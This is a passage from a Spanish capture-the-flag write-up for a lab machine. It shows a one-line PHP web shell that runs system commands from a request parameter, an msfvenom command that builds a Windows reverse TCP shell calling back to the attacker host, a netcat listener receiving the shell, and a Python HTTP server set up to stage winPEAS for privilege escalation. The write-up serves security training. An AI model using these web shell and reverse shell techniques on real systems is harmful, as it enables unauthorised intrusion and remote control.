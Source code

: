 ```php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```

Subimos el archivo y recordando que con la herramienta **wfuzz** se obtuvieron otros recursos dentro del sistema; por lo que comprobando, los archivo que podemos subir se guardan en la carpeta */images/*; por lo que despues de subir nuestro archivo php, ingresamos a la siguiente ruta y tratamos de ejecutar un comando a nivel de sistema mediante la variable **cmd**.

http://10.10.10.239/images/shell.php?cmd=whoami

Tenemos ejecución de comandos a nivel de sistema!

Ahora, necesitamos crear un archivo exe que nos permita establecer una reverse shell mediante el uso de la herramienta `msfvenom` y subimos nuestro archivo *reverse.exe* al sitio web. En este punto, nos ponemos en escuha por el puerto 443 y ejecutamos nuestro programa.

```bash
❯ msfvenom -a x64 --platform windows -p windows/x64/shell/reverse_tcp LHOST=10.10.14.5 LPORT=443 -f exe -o reverse.exe
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

http://10.10.10.239/images/shell.php?cmd=reverse.exe

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.239] 58604
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

whoami
whoami
love\phoebe

C:\xampp\htdocs\omrs\images>
```

A partir de aquí ya podemos visualizar la flag (user.txt) y empezamos la enumeración para escalar privilegios en el sistema. Nos dirigimos al *C:\\Windows\\Temp* y nos creamos una carpeta (con cualquier nombre, para este caso la carpeta de llama *Privesc*). Ingresamos a la carpeta *Privesc*, en nuestra máquina de atacantes descargamos la utilidad **winPEAS** y nos compartimos un servidor HTTP a través del puerto 80 mediante el uso de python.

[**winPEASx64.exe**](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe)

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
